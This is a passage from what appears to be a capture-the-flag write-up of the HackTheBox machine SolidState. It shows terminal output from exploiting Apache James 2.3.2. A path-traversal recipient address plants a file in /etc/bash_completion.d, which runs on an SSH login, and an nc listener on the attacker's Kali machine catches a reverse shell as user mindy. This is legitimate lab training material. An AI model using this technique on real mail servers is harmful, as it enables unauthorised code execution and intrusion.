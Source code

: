     Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Apr 29 22:44:26 2020 from 10.10.14.47
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found
    -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    
    : No such file or directory
    -rbash: $'\r': command not found
    mindy@solidstate:~$ ls
    bin  user.txt
    

And I have a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49678.
    id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
    

[](/2020/04/30/htb-solidstate.html)

